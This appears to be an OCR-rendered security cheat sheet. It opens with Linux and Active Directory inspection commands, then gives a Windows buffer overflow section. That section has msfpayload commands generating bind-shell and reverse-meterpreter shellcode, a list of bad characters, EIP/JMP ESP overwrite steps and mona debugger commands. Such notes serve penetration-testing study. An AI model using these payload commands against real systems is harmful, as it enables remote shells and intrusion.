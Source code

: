look for weird things in arp

\# arp -a

look at all accounts including AD

\# getent passwd

look at all groups and membership including AD

\# getent group

list crontabs for all users including AD

\# for user in $\(getent passwd\|cut -f1 -d:\); do echo “\#\#\# Crontabs for $user \#\#\#\#”; crontab -u $user -l; done

\#generate random passwords

cat /dev/urandom\| tr -dc ‘a-zA-Z0-9-\_!@\#$%^&\*\(\)\_+{}\|:&lt;&gt;?=’\|fold -w 12\| head -n 4

\# find all immutable files, there should not be any

find . \| xargs -I file lsattr -a file 2&gt;/dev/null \| grep ‘^….i’

\# fix immutable files

chattr -i file

Windows Buffer Overflow Exploitation Commands:

msfpayload windows/shell\_bind\_tcp R \| msfencode -a x86 -b “\x00″ -t c

msfpayload windows/meterpreter/reverse\_tcp LHOST=X.X.X.X LPORT=443 R \| msfencode -e x86/shikata\_ga\_nai -b “\x00″ -t c

COMMONLY USED BAD CHARACTERS:

\x00\x0a\x0d\x20                                            For http request

\x00\x0a\x0d\x20\x1a\x2c\x2e\3a\x5c           Ending with \(0\n\r\_\)

Useful Commands:

pattern create

pattern offset \(EIP Address\)

pattern offset \(ESP Address\)

add garbage upto EIP value and add \(JMP ESP address\) in EIP . \(ESP = shellcode \)

!pvefindaddr pattern\_create 5000

!pvefindaddr suggest

!pvefindaddr modules

!pvefindaddr nosafeseh

!mona config -set workingfolder C:\Mona\%p

!mona config -get workingfolder

!mona mod
